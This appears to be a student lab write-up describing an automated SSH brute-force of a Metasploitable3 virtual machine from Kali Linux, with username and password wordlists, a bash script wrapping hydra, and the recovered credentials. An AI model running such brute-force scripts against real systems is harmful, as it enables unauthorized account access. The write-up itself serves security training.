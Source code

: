 # Phase 1 - Task 1.2: Automate SSH Brute-Force Using Hydra

## Objective
Compromise the service using a custom script that i created.

---

## 🖥️ Setup

- **Attacker Machine:** Kali Linux (UTM)
- **Victim Machine:** Metasploitable3 (UTM)
- **Target IP Address:** `192.168.64.7`
- **Target Port:** `22` (default)

### users.txt

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt
```text
password
123456
toor
vagrant
aishapass
testpass
```
![files contant](screanshots/filesContant.png)

---

## Custom Script

### File: script.sh
```text
#!/bin/bash

# Define the target IP address and port
TARGET_IP="192.168.64.7"  # target IP
TARGET_PORT=22 # target PORT

# Define the path to the username and password files
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"

# Output file to store valid credentials
OUTPUT_FILE="valid_credentials.txt"

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

# Run Hydra to brute-force SSH credentials
echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

# Check if valid credentials were found
if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

### add the script using:
```text
nano script.sh
```

![the Custom Script](screanshots/customScript.png)

---

## Make the script executable
```text
chmod +x script.sh
```
![script executable](screanshots/scriptExecutable.png) 

---

## Result

### Execute the script
```text
./script.sh
```
![Execute script](screanshots/executeScript.png) 

### Hydra successfully completed the brute-force attack and identified valid SSH credentials for the target system.

### This confirms that the target system at 192.168.64.7 is accessible over SSH using the credentials:

* Username: vagrant
* Password: vagrant





















